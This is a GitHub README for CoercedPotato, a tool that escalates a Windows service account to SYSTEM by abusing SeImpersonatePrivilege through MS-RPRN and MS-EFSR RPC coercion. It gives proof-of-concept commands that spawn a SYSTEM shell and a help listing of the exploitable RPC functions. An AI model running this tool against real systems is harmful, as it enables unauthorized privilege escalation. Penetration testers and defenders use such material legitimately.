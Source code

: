 # Coerced potato

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html)

A very quick PoooooC:

```txt
.\CoercedPotato.exe -c whoami
```
An other PoC with an interactive shell:

```txt
.\CoercedPotato.exe -c cmd.exe
```
<p align="center">
  <img src="poc.png">
</p>


## Usage

You can check the help message using the `--help` option.

```txt
                                                                  
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce    
                                                                  
CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.
Usage: .\CoercedPotato.exe [OPTIONS]

Options:
  -h,--help                   Print this help message and exit
  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)
  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr
  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined) 
                               -> ms-rprn : 
                                 [0] RpcRemoteFindFirstPrinterChangeNotificationEx()
                                 [1] RpcRemoteFindFirstPrinterChangeNotification()
                               -> ms-efsr 
                                 [0] EfsRpcOpenFileRaw()
                                 [1] EfsRpcEncryptFileSrv()
                                 [2] EfsRpcDecryptFileSrv()
                                 [3] EfsRpcQueryUsersOnFile()
                                 [4] EfsRpcQueryRecoveryAgents()
                                 [5] EfsRpcRemoveUsersFromFile()
                                 [6] EfsRpcAddUsersToFile()
                                 [7] EfsRpcFileKeyInfo() # NOT WORKING
                                 [8] EfsRpcDuplicateEncryptionInfoFile()
                                 [9] EfsRpcAddUsersToFileEx()
                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING
                                 [11] EfsRpcGetEncryptedFileMetadata()
                                 [12] EfsRpcEncryptFileExSrv()
                                 [13] EfsRpcQueryProtectors()
                              
  -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)
  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                ```
Made in France 🇫🇷 with <3
